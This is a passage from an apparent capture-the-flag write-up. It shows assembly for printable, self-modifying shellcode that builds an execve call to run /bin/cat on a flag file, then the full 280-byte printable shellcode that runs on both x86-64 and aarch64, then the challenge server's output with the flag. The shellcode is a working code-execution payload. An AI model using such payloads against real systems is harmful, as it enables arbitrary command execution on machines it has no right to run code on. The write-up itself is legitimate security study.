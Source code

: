 ```assembly
    xor al, 0x3b    # offset to "flag_path"
    xor al, 0x20
    xor [rcx+0x60+0x8], rax # rax is 0x10b

    # Now put in 2nd argument (rsi) the address of the array
    xor al, 0x42    # offset to array of pointers
    push rax
    pop rsi

    # Move syscall number to rax
    # __NR_execve == 59
    pop rax     # rax == 0 from rdi
    push rax    # for rdx later
    xor al, 59

    # Move NULL (0) to 3rd argument (rdx)
    pop rdx

    # Offset: this should be 0x109
    # This will be "syscall"
    .byte 0x57  # 0x0f
    .byte 0x5d  # 0x05

# Offset: this should be 0x10b
flag_path:
    .ascii "flag"

# this should be 0x10f
flag_path_null_terminator:
    .byte 0x58
```



### The complete solution

I present you - our glorious 280-bytes, printable, multi-architecture shellcode:

```
rf~Qb3[jB0?1Bh>qB<?1BP>q)e01)i0qIh 8Zk01Zg0qk3[jk)>1ki<q') 1"BJ4ri`8k!:+yi`8rS2J9O0r9CrJYh 8k!:+B :+"BJ4r`~Qb G6ONDGCFJHAKHPMBNPPDPPAPLAPHPPCPPBPPHPMBFEPPPPAPBPADPPJIPAPPPPMDFFFLFAFGPPCCCCCCCCCCCCCCCCCCRXhXXXX[4H1X_0XcPYf]XY>YYf(yjWf1Y 0Y&4oP_H1y`4;4 H1Ah4BP^XP4;ZW]flagX/bin/cat
```

When sending it to the server, we get the following output:

```
x86-64 passed:  True
aarch64 passed: True
CTF{abc_easy_as_svc}
```

We got our flag! `CTF{abc_easy_as_svc}`

